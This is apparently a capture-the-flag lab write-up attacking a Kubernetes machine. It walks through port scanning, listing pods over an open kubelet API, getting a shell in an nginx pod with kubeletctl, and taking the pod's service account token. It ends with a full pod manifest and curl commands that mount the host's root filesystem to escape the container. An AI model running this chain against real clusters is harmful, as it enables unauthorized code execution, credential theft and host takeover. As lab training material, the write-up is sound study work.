


### Task 1

Which containerization framework are the services on TCP ports 2379 and 2380 components of?

Targeting those two specific ports with ``nmap -p 2379,2380 <target_ip>`` we see that the services running are the ``etcd-client`` and ``etcd-server`` accordingly. The etcd service is a key-value store used as Kubernetes' backing store for all cluster data.



### Task 2

How many pods are running on the target system?

One of Kubernetes components is the Kubelet API that is used by the control plane which manages nodes, the worker machines where pods run. Thus, we can use the Kubelet API to list all pods running on nodes. Kubelet API runs on port 10250 that we can validate its state by ``nmap -p 10250 -sS <target_ip>``.



To find out the number of pods we can then run ``curl -k -X GET https://<target_ip>:10250/pods`` this will return a json response which we can then store in a json file and sort it to have a better overview of the information. Searching this file with for "hostIP" will return the matches for the IP's of the host of pods which essentially is the number of pods.

### Task 3 

Which pod in the default namespace allows code execution? Choose from "etcd-steamcloud", "nginx", "kube-controller-manager-steamcloud", and "storage-provisioner".

We can eliminate the pod by searching on the json file stored previously for "namespace: "default"" for the 4 potential pods. The one that matches both conditions is the pod we are looking for.

### Task 4

In which directory is the service account access token and certificate stored inside a Kubernetes pod?

Looking under the volumeMounts field, we see the directory ``/var/run/secrets/kubernetes.io/serviceaccount/`` mounted with the name ``kube-api-access-zwtvf``. Searching for this name under volumes reveals a projected volume that contains two sources: a serviceAccountToken stored in token, and a configMap providing the CA certificate stored in ca.crt. These files are the pod’s service account token and certificate, used to authenticate and interact with the Kubernetes API server.
                        
### Task 5

When creating a Kubernetes Pod, which Volume type can be used to mount a file or directory from the host's filesystem onto the Pod? Choose from "gcePersistentDisk", "hostPath", "secret", or "emptyDir"

From the same json file, in the pod’s volumeMounts, ``/root`` is mounted from a volume named ``flag``. Looking up ``flag`` under volumes shows it is defined with ``"hostPath": { "path": "/opt/flag" }``, meaning the volume type is hostPath, which mounts files/directories from the host filesystem into the Pod.

### Task 6 

Submit the flag located in the user user's home directory.

We can use the tool [kubeletctl](https://github.com/cyberark/kubeletctl) to execute into the vulnerable pod by ``./kubeletctl_<binary_for_os>   --server <target_ip>   --port 10250   exec -p nginx -n default -c nginx -- sh -lc`` that runs a shell inside the nginx container and in the nginx pod. In case you built from source, you need to be under the build directory and choose the correct binary file depending on your operating system. We can then navigate to the ``/root`` directory and get the user's flag.

### Task 7

Submit the flag located in root's home directory.

In order to answer this question, we need to escape from the containirised environment to the target machine. In the pod we are in and navigating to the directory ``/var/run/secrets/kubernetes.io/serviceaccount/`` we can obtain both the token and the certificate. These credentials can be used to communicate directly with the Kubernetes API server. With the correct permissions, we can create a pod that mounts the host’s root filesystem (/) inside the container.

First, create the pod manifest such as:

```
cat > pod-hostfs.json <<'JSON'
{
  "apiVersion": "v1",
  "kind": "Pod",
  "metadata": { "name": "bb2-escape" },
  "spec": {
    "containers": [
      {
        "name": "bb",
        "image": "nginx:1.14.2",
        "imagePullPolicy": "Never",
        "command": ["sh","-lc","sleep 3600000"],
        "volumeMounts": [
          { "name": "host", "mountPath": "/node-host" }
        ]
      }
    ],
    "volumes": [
      { "name": "host", "hostPath": { "path": "/", "type": "Directory" } }
    ]
  }
}
JSON
```

This pod mounts the host's ``/`` directory at ``/node-host`` inside the container. Then, after storing the ``TOKEN`` and ``APISRV`` as environmental variables and the certificate in a file called "ca.crt", deploy the pod using the API server:


```
curl --cacert ca.crt -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -X POST "$APISRV/api/v1/namespaces/default/pods" \
     -d @pod-hostfs.json
```

After executing into the pod using the following command:

```
./kubeletctl_<binary_for_os> \
  --server <target_ip> --port 10250 \
  exec -p bb2-escape -n default -c bb -- sh -lc 'id && mount | head && ls -la /node-host'
```

the ``/node-host`` will be the host's root filesystem. Thus, to get the root flag, navigate to the ``node-host/root`` directory and grab it by running ``cat root.txt``.